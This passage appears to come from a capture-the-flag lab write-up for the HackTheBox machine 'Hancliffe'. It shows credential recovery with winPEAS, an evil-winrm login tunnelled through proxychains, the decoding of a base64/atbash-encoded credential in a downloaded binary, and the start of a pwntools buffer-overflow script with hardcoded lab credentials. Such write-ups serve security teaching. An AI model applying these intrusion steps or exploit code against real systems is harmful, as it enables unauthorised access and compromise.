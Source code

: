 ```powershell
     Password:      #@H@ncLiff3D3velopm3ntM@st3rK3y*!
     
```

Winpeas find saved credentials for firefox, there are a url, username and password.
The url points to the password generator application seen earlier.
Using these credentials, I access the web application to obtain the real password for the user "development"

Since I already have the internal ports open with chisel, I try to connect using Evil-Winrm with these credentials

```powershell
proxychains evil-winrm -i 10.10.11.115 -u 'development' -p 'AMl.q2DHp?2.C/V0kNFU'
*Evil-WinRM* PS C:\Users\development\Documents> whoami
hancliffe\development
 ```

Now I gain access as the user "development"
In the "DevApp" directory, I find a binary and download it

```powershell
Evil-winrm PS > download MyFirstApp.exe
 ```

when I connect with netcat to port 9999 it requests credentials. 
This binary is related to that application.
I download the binary to my machine and use the "strings" tool to inspect it. I find a credencial in base64.
After analizing the binary with ghidra, it seemsm to implement some cipher. So, I need to decode the base64 credencial  and then decode it from atbash cipher to obtain the valid credential.

After logging in with these credencials via nectcat on port 9999, I find a buffer overflow vulnerability in the aplication

I'm going to use pwntools to create a script for the buffer overflow exploitation and use my local Windows machine to simulate the attack. I'll also use 32xdbg to debug the binary.

**I send the payload to trigger the buffer overflow**

``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
payload = b"A"*800

r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)


```
